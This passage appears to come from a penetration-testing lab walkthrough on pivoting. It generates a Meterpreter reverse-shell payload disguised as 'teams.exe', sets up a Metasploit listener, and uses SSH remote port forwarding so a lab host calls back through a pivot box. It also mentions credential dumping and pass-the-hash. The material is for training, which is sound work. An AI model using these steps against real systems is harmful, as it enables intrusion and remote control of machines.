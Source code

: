 There are many ways to attack this network and achieve the same results, so we will not cover them all here, but one worth mentioning is [Remote/Reverse Port Forwarding with SSH](https://academy.hackthebox.com/module/158/section/1427). Let's say we want to return a reverse shell from the `DEV01` box to our attack host. We can't do this directly since we're not in the same network, but we can leverage `dmz01` to perform reverse port forwarding and achieve our goal. We may want to get a Meterpreter shell on the target or a reverse shell directly for any number of reasons. We could have also performed all of these actions without ever getting a shell, as we could have used `PrintSpoofer` to add a local admin or dump credentials from `DEV01` and then connect to the host in any number of ways from our attack host using Proxychains (pass-the-hash, RDP, WinRM, etc.). See how many ways you can achieve the same task of interacting with the `DEV01` host directly from your attack host. It's essential to be versatile, and this lab network is a great place to practice as many techniques as possible and hone our skills.

Let's walk through the reverse port forwarding method quickly. First off, we need to generate a payload using `msfvenom`. Note that here we'll specify the IP address of the `dmz01` pivot host in the `lhost` field and NOT our attack host IP as the target would not be able to connect back to us directly.

```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 787 bytes
Final size of exe file: 7168 bytes
Saved as: teams.exe
```

Next, we need to set up a `multi/handler` and start a listener on a different port than the payload we generated will use.

```shell-session
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> use multi/handler
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 7000
lport => 7000
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started HTTPS reverse handler on https://0.0.0.0:7000
```

Next, we need to upload the `teams.exe` reverse shell payload to the `DEV01` target host. We can SCP it up to `dmz01`, start a Python web server on that host and then download the file. Alternatively, we can use the DNN file manager to upload the file as we did previously. With the payload on the target, we need to set up `SSH remote port forwarding` to forward the dmz01 pivot box port `443` to the Metasploit listener port `7000`. The `R` flag tells the pivot host to listen on port `443` and forward all incoming traffic to this port to our Metasploit listener at `0.0.0.0:7000` configured on our attack host.
